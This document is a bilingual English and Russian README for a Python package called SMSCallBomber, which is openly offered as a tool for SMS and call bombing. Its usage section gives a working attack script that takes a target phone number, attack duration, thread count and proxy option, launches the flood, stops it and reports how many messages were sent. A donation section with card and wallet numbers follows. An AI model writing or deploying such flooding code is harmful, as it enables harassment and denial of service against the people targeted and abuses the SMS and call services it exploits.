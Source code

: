 # SMSCallBomber

## English(Русский ниже)

### Description

This library provides functionality for SMS and call bombing.

### Installation

You can install the SMSCallBomber library via pip:

```bash
pip install SMSCallBomber
```

### Usage

```python
from smscallbomber import SMSCallBomber
import time
import threading
from argparse import Namespace

# Creating an instance of SMSCallBomber
args = Namespace(country='Two letter country code (Specify ALL for all countries)', phone=Phone number for attack (without +), time=Attack time in seconds, threads=Number of threads, timeout=Request timeout, proxy=Whether to use a proxy for attack (True or False))
args.time += time.time()

attack_threads = {}
bombers = {}
bomber_id = 1234567890

# Starting the attack
def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    bomber.run()

attack_threads = threading.Thread(target=attack_thread_runner, args=(args,))
attack_threads.start()

# Stopping the attack
attack_threads.join(0)
del attack_threads
time.sleep(5) # Increase the time if the results contain zeros
bomber = bombers[bomber_id]
bomber.stop()
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")

# Returns the result of the attack after it ends
time.sleep(Attack time in seconds)
time.sleep(5) # Increase the time if the results contain zeros
bomber = bombers[bomber_id]
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")
```

It is also possible to use in an asynchronous environment if you slightly modify the code and use 
```python
await bomber._run()
```

### Donation

If you find this project helpful and would like to support its development, you can make a donation to the author.

- YooMoney: 4100118510603906
- Cards:
  - 2200 7009 6755 8080 - Tinkoff
  - 2202 2068 1279 8101 - Sberbank
- Other methods: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### License

This project is licensed under the MIT License.

## Русский

### Описание

Эта библиотека предоставляет функционал для SMS бомбера со звонками.

### Установка

Вы можете установить библиотеку SMSCallBomber с помощью pip:

```bash
pip install SMSCallBomber
```

### Использование

```python
from smscallbomber import SMSCallBomber
import time
import threading
from argparse import Namespace

# Создание экземпляра SMSCallBomber
args = Namespace(country='Двухбуквенный код страны (Укажите ALL для всех стран)', phone=Номер телефона для атаки (без +), time=Время атаки в секундах, threads=Количество потоков, timeout=Время ожидания запроса, proxy=Использовать ли прокси для атаки (True или False))
args.time += time.time()

attack_threads = {}
bombers = {}
bomber_id = 1234567890

# Запуск атаки
def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    bomber.run()

attack_threads = threading.Thread(target=attack_thread_runner, args=(args,))
attack_threads.start()

# Остановка атаки
attack_threads.join(0)
del attack_threads
time.sleep(5) # Увеличьте время если в результатах по нулям
bomber = bombers[bomber_id]
bomber.stop()
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")

# Возвращает результат атаки после её окончания
time.sleep(Attack time in seconds)
time.sleep(5) # Увеличьте время если в результатах по нулям
bomber = bombers[bomber_id]
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")
```

Также возможно использование в асихронной среде, если немного переделать код и использовать 
```python
await bomber._run()
```

### Пожертвование

Если вы нашли этот проект полезным и хотели бы поддержать его развитие, вы можете сделать пожертвование автору.

- ЮMoney: 4100118510603906
- Карты:
  - 2200 7009 6755 8080 - Тинькофф
  - 2202 2068 1279 8101 - Сбербанк
- Другие способы: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### Лицензия

Этот проект распространяется под лицензией MIT License.